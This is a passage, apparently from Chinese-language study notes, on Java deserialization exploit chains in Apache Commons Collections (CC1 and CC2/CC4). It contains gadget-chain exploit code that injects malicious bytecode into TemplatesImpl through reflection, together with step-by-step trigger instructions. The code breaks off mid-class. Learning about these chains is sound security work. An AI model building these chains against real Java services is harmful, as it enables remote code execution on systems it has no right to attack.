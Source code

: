 ```java
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
//反射机制调用AnnotationInvocationHandler类的构造函数
Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
//取消构造函数修饰符限制
ctor.setAccessible(true);
//获取AnnotationInvocationHandler类实例
Object instance = ctor.newInstance(Target.class, outerMap);
```

然后就是getruntime反射，ChainedTransformer

## CC2-commons.collections 4.0->=JDK8u71

> 1、构造一个TemplatesImpl的恶意类转为字节码，然后反射注入到TemplatesImpl对象的_bytecodes属性
2、创建一个InvokerTransformer并传递一个newTransformer方法，然后将InvokerTransformer方法名传递给TransformeringComparator
3、通过反射构造PriorityQueue队列的comparator和queue两个字段，将PriorityQueue队列的comparator字段设置为TransformingComparator，然后将queue字段设置为TemplatesImpl对象，触发利用链
> 

```java
package org.cc.cc1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "aaa");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\JavaSec\\CCdebug\\target\\classes\\org\\cc\\cc1\\test.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates, codes);

//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(templates, new TransformerFactoryImpl());
//        //templates.newTransformer();

```